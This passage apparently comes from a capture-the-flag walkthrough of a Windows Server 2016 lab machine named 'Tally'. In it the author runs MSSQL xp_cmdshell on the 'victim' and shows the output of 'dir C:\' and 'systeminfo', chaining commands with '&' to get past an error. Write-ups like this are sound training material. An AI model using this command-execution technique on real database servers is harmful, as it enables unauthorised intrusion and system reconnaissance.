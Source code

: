 Ready, now let's try something simple let's list the disk C.  
In this way we validate that we can now execute commands on the victim.

{% highlight zsh %}
1> xp_cmdshell 'dir C:\';
2> go

	output                                                                  
----------------------------------------------------------

	 Volume in drive C has no label.                                        
	 Volume Serial Number is 8EB3-6DCB                                      
	NULL  

	 Directory of C:\  
	NULL                                                                                                                       
	18/09/2017  05:58    <DIR>          ACCT                                                      
	18/09/2017  20:35    <DIR>          FTP                                                       
	18/09/2017  21:35    <DIR>          inetpub                                                   
	16/07/2016  13:23    <DIR>          PerfLogs                                                  
	24/12/2017  01:46    <DIR>          Program Files                                             
	19/10/2017  22:09    <DIR>          Program Files (x86)                                       
	01/10/2017  19:46    <DIR>          TEMP                                                      
	12/10/2017  20:28    <DIR>          Users                                                     
	23/10/2017  20:44    <DIR>          Windows                                                        
	               0 File(s)              0 bytes                                       
	               9 Dir(s)   2,260,242,432 bytes free
{% endhighlight %}  

Excellent, after having our RCE, we will proceed by listing everything.  
We will execute the command *systeminfo*, which is used to return the system information.

{% highlight zsh %}
1> xp_cmdshell 'systeminfo';
2> go

	output                                                                                        
	-----------------------------------------------------------------------------------------
    -----------------------------------------------------------------------------------------

	The current directory is invalid.                                                                                                                                                           

NULL
{% endhighlight %}  

Apparently certain commands are not available.  
To avoid these errors we must use the operator *&* in the following way:

{% highlight zsh %}
1> xp_cmdshell 'cd C:\ & systeminfo';
2> go

	output                                                                              
----------------------------------------------------------

	NULL                                                                             
	Host Name:                 TALLY                                                   
	OS Name:                   Microsoft Windows Server 2016 Standard
	OS Version:                10.0.14393 N/A Build 14393 
	OS Manufacturer:           Microsoft Corporation  
	OS Configuration:          Standalone Server 
	OS Build Type:             Multiprocessor Free 
	Registered Owner:          Windows User       
	Registered Organization:                      
	Product ID:                00376-30726-67778-AA877
	Original Install Date:     28/08/2017, 15:43:34   
	System Boot Time:          17/02/2018, 20:05:52      
	System Manufacturer:       VMware, Inc.   
	System Model:              VMware Virtual Platform    